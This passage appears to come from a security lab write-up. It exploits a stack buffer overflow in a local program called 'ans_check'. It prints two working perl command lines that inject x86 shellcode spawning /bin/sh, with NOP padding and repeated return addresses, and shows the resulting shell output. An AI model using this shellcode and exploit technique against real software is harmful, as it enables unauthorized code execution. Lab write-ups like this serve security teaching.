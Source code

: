 It successfully obtain the shell:
```bash
$ ./ans_check $(perl -e 'print "\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80", "\x5d\x93\x04\x08"x54, "\x22\x90\x04\x08"')
ans_buf is at address 0xffe7f4da
$ whoami
seed
$ id
uid=1001(seed) gid=1001(seed) groups=1001(seed),120(docker)
```

Actually, our exploit also works if the five bytes of NOPS are padded between the shellcode and the address of <code>ret</code>:
```bash
$ ./ans_check $(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80", "\x90"x5, "\x5d\x93\x04\x08"x54, "\x22\x90\x04\x08"')
ans_buf is at address 0xffe2999a
$ whoami  
seed
$ id
uid=1001(seed) gid=1001(seed) groups=1001(seed),120(docker)
```

## Notes

[^1]: See [Izik Kotler](ikotler.org), "Smack the Stack (Advanced Buffer Overflow Methods)", *In Proceedings of 22C3*, 2005.